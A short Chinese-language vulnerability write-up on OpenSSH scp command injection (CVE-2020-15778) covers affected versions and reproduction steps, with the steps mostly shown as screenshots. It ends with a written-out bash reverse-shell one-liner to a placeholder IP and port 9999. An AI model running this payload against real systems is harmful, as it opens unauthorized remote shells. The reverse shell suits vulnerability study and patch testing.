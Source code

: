 # OpenSSH 命令注入漏洞 CVE-2020-15778 

## 漏洞描述

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

## 漏洞影响

<a-checkbox checked>OpenSSH <= 8.3p1</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="可用于目标不允许远程登录但SCP开启的情况下远程命令执行" description="" showIcon>
</a-alert>

<br/>

攻击机创建 peiqi.txt ，利用 scp上传文件 到 /tmp 目录下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311162457049.png)

执行命令 ping dnslog



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-6987082.png)



反弹shell 更换命令即可

```plain
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```